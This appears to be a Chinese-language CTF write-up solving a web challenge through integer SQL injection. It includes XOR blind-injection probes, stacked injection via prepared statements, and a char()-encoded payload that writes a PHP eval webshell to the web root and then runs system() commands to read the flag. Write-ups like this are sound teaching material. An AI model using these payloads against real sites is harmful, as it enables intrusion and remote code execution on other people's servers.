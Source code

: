 ```yaml
---
Author: Coder-LYQ
Date: 2021-1-3
---
```


##  思路

1. 打开网页显示如下，有登录和注册框。注册账号登录后，有用户信息和编辑头像两个选项。

<img src="../images/image-20210113193148596.png" alt="image-20210113193148596" width="50%;" />



<img src="../images/image-20210113193336886.png" alt="image-20210113193336886" width="50%;" />

2. 点击用户信息，url中有id=2，这种情况很有可能存在sql注入，而且很可能是整型注入。

   <img src="../images/image-20210113193445199.png" alt="image-20210113193445199" width="50%;" />

   修改id=2^1^1，可以正常显示；id=2^1，页面上无数据。说明存在整型注入。

   这里输入id=1,可以显示admin的信息，说明还存在越权漏洞。

   输入id=2-1和id=1显示结果一致。

3. 点击编辑头像，可以选择文件上传。说明可能存在文件上传漏洞。

   <img src="../images/image-20210113194130354.png" alt="image-20210113194130354" width="50%;" />

   这里只能上传.jpg|.jpeg|.png|.gif类型的文件，而且是前端检测。

   使用bp拦截后，修改文件后缀再上传，仍然显示上传的jpg后缀文件。而且这里不管上传什么文件，都是下面这个文件名。

   `文件上传成功，保存于：../favicon/098f6bcd4621d373cade4e832627b4f6.jpg Mysql error!`

4. 继续考虑sql漏洞。

   利用异或注入时，按照常规思路，测试`id=2^1^(ascii(substr(database(),1,1))>0)`
   
   但页面上无任何内容显示，如下：
   
   <img src="../images/image-20210113200537419.png" alt="image-20210113200537419" width="50%;" />
   
   测试`id=2^1^(if(ascii(mid(user(),1,1))>0,1,0))`,页面正常显示。
   
   <img src="../images/image-20210113200651400.png" alt="image-20210113200651400" width="50%;" />
   
   说明这里会过滤一些关键字。（如何fuzz发现其他被过滤的关键字）
   
5. 堆叠注入。会过滤掉select。--》使用sql预处理

   格式：

   ```sql
   set @sql=concat();
   prepare s1 from @sql;
   execute s1;
   ```

   **新思路：**利用select into outfile  将一句话木马写入文件。

   `select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';`

   将上面的sql转成char（避免select被过滤）。

​		`?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;`

6. 访问上传的shell.php，并post请求，利用system()命令获取信息。如下，flag应该存在WelL_Th1s_14_fl4g中。

<img src="../images/image-20210113201630356.png" alt="image-20210113201630356" width="60%;" />

7. 获取flag。

   <img src="../images/image-20210113201831749.png" alt="image-20210113201831749" width="60%;" />

## 总结

- 本题利用堆叠注入，且select被过滤，可以使用sql的预处理语句。
- select *** into outfile  ‘(文件路径)’  将一句话写入文件
- 将字符串转换成对应ascii码，再利用char()函数--》绕过select过滤。
- 该题与**[强网杯 2019]随便注**有类似之处